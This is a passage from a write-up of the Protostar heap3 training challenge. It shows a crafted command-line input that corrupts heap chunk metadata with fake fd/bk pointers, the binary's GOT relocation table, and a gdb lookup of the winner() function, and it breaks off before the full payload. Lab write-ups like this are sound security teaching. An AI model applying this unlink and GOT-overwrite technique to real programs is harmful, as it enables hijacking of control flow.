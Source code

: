 Putting together what we have learnt so far, we get the following input to the
program. We overwrite the `prev_size` and `size` members with -4. The
`\x42\x42\x42\x42` and `\x43\x43\x43\x43` are the `fd` and `bk` members
respectively.

```shell
user@protostar:~$ /opt/protostar/bin/heap3 AAAA `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x42\x42\x42\x42\x43\x43\x43\x43'"` DDD
Segmentation fault
```

As expected, we see that it segfaults at `0x4242424e` as it tries to write to
that address.

Now that we have a write-what-where primitive, how do we turn it into control
of program flow? Using the lessons from the format string stages, we can
overwrite the GOT table entry for `puts()` to point to `winner()`.

We look up the address of `puts()`'s GOT entry which is `0x804b128`.

```shell
user@protostar:~$ objdump -TR /opt/protostar/bin/heap3

/opt/protostar/bin/heap3:     file format elf32-i386

... <snip> ...

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
0804b0e4 R_386_GLOB_DAT    __gmon_start__
0804b140 R_386_COPY        stderr
0804b0f4 R_386_JUMP_SLOT   __errno_location
0804b0f8 R_386_JUMP_SLOT   mmap
0804b0fc R_386_JUMP_SLOT   sysconf
0804b100 R_386_JUMP_SLOT   __gmon_start__
0804b104 R_386_JUMP_SLOT   mremap
0804b108 R_386_JUMP_SLOT   memset
0804b10c R_386_JUMP_SLOT   __libc_start_main
0804b110 R_386_JUMP_SLOT   sbrk
0804b114 R_386_JUMP_SLOT   memcpy
0804b118 R_386_JUMP_SLOT   strcpy
0804b11c R_386_JUMP_SLOT   printf
0804b120 R_386_JUMP_SLOT   fprintf
0804b124 R_386_JUMP_SLOT   time
0804b128 R_386_JUMP_SLOT   puts
0804b12c R_386_JUMP_SLOT   munmap
```

This means that we want to write `\x1c\xb1\x04\x08` to `fd`. Remember, we have
to subtract 12 bytes from the memory address that we want to write to.

Next, we get the memory address of the `winner()` function which is
`0x8048864`.

```shell
(gdb) print &winner
$1 = (void (*)(void)) 0x8048864 <winner>
```
